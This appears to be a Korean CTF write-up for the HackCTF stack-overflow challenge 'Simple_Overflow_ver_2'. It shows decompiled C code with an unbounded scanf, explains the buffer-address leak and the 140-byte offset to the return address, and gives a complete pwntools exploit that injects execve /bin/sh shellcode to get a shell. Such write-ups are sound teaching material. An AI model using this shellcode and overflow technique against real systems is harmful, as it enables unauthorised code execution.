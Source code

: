 ```yaml
---


---
```


<h1 id="hackctfsimple_overflow_ver_2">HackCTF:Simple_Overflow_ver_2</h1>
<h2 id="section">2019-08-13</h2>
<pre><code>int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // ebx
  char v5; // [esp+13h] [ebp-89h]
  char s[128]; // [esp+14h] [ebp-88h]
  int i; // [esp+94h] [ebp-8h]

  setvbuf(stdout, 0, 2, 0);
  v5 = 121;
  do
  {
    printf("Data : ");
    if ( __isoc99_scanf(" %[^\n]s", s) )
    {
      for ( i = 0; ; ++i )
      {
        v3 = i;
        if ( v3 &gt;= strlen(s) )
          break;
        if ( !(i &amp; 0xF) )
          printf("%p: ", &amp;s[i]);
        printf(" %c", (unsigned __int8)s[i]);
        if ( i % 16 == 15 )
          putchar(10);
      }
    }
    printf("\nAgain (y/n): ");
  }
  while ( __isoc99_scanf(" %c", &amp;v5) &amp;&amp; (v5 == 121 || v5 == 89) );
  return 0;
}
</code></pre>
<p>프로그램이 실행 되면 현제 입력되는 주소가 출력된다. 이후 함수 scanf() 로 입력 받되, 16byte가 넘어갈 경우 다음 주소로 넘겨버리고 있다. 이 작업을 한번 마치면 분기에서 n을 선택할때 까지 반복한다.<br>
처음에 결정난 주소는 프로그램을 재실행 할때까지 바뀌지 않는다.</p>
<p>배열 s는 IDA에서 확인 할 수 있듯 140byte뒤에 RET가 존재한다.</p>
<pre><code>from pwn import *
p = remote('ctf.j0n9hyun.xyz', 3006)
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"


p.recvuntil(": ")
p.sendline("A")

buff = int(p.recv(10), 16)

payload = ''
payload += "y"
payload += shellcode
payload += "A" * 116
payload += p32(buff)

p.sendline(payload)
p.interactive()
</code></pre>

